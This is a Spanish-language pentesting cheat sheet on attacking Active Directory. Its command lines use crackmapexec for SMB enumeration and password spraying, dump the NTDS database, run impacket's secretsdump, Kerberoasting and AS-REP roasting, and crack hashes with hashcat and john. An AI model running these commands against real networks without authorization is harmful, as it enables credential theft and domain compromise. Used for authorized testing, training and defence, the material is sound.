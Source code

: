 # Active Directory

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Que nos encontramos en ese segmento de red.

```
crackmapexec smb IP # o poner segmento 192.168.4.128-132
```

Si no pide firma podemos hacer NTL relay. En el dominio principal por defecto está firmado.

Realizar escaneo de NMAP completo.

* Puerto 53: DNS
* Puerto 88: Kerberos
* Puerto 389: LDAP
* Puerto 445: SMB

Escaneo NMAP para ver el dominio.

```
nmap -n -P0 -p 53,88,389,445 --script smb-os-discovery.nse IP 
```

## Reconocimiento

Nos creamos un listado de usuarios con los que nos salen.

```
crackmapexec smb IP(AD) -u usuarios.txt -p diccionario.txt --continue-on-success
```

Para cuando sea solo a un ordenador y no al dominio principal.

```
crackmapexec smb IP -u usuarios.txt -p diccionario.txt --local-auth
```

Si pone **Pwned!** es que tiene altos privilegios.

```
crackmapexec smb IP -u usuario -p '1234' --continue-on-success
crackmapexec smb IP -u usuario -p '1234' --pass-pol #política de contraseñas
crackmapexec smb IP -u usuario -p '1234' --users
```

Dumpear la base de datos del dominio.

```
crackmapexec smb IP(AD) -u usuario -p '1234' --ntds
```

La estructura de la respuesta es -> Usuario:ID:LM HASH:NTHASH

Si pone **404ee** en el LM está deshabilitado.

Rompemos las contraseñas creando un diccionario con NTHASH.

{% embed url="https://hashes.com/en/decrypt/hash" %}

Contraseñas previas que se han configurado.

```
impacket-secretsdump -just-dc usuario:password@IP -history -pwd-last-secret
```

No se necesita ser administrador de dominio para realizar un ataque de **Keberoasting**.

```
impacket-GetUserSPNs -dc-ip IP(AD) dominio.com/usuario:'1234' -request
```

Cogemos la contraseña para crackear.

```
hashcat -m 13100(número depende) --force -a 0 hash diccionario.txt
john --format=krb5tgs --wordlist=diccionario.txt hash
```

Lo probamos.

```
crackmapexec smb IP(AD) -u SVC_SQLService -p '1234'
```

**AS -REP Roasting Attack**

```
impacket-GetNPUsers -dc-ip IP(AD) dominio.com/ -no-pass -userfile users.txt -outfile salida.txt
```
